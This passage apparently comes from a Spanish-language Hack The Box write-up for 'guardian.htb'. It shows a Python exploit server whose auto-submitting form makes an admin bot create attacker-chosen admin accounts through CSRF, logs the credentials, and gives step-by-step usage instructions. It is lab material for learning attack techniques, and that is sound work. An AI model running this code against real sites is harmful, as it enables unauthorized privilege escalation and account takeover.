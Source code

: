 ```python
            window.location.href = "http://portal.guardian.htb/admin/createuser.php";
        }}, 2000);
    </script>
    
    <noscript>
        <meta http-equiv="refresh" content="0;url=http://portal.guardian.htb/admin/createuser.php">
    </noscript>
    
</body>
</html>
'''
        
        self.send_response(200)
        self.send_header('Content-type', 'text/html')
        self.end_headers()
        self.wfile.write(html.encode())
        
        print(f"[+] Servido formulario auto-submit para usuario: {username}")
        print(f"[+] Credenciales: {username} / {password}")
        print(f"[+] Token CSRF usado: {CSRF_TOKEN}")
        
        # Guardar credenciales en archivo
        with open("created_admins.txt", "a") as f:
            f.write(f"{username}:{password}\n")
    
    def log_message(self, format, *args):
        print(f"[SSRF] {format % args}")

def start_ssrf_server():
    """Iniciar servidor SSRF"""
    print("🚀 SSRF AUTO-ADMIN CREATION SERVER")
    print("=" * 50)
    print(f"[+] Token CSRF: {CSRF_TOKEN}")
    print(f"[+] Tu IP: {YOUR_IP}")
    print("[+] Servidor escuchando en puerto 80")
    print("\n[INSTRUCCIONES]")
    print("1. Usa esta URL en reference_link: http://10.10.14.43/")
    print("2. El bot admin visitará y creará automáticamente un usuario admin")
    print("3. Las credenciales se guardarán en 'created_admins.txt'")
    print("4. Luego podrás loguearte con esas credenciales")
    print("\n[*] Esperando conexiones del bot admin...\n")
    
    server = HTTPServer(('0.0.0.0', 80), AutoSubmitSSRFHandler)
    server.serve_forever()

if __name__ == '__main__':
    start_ssrf_server()
```

Ahora vamos a establecer el servidor:
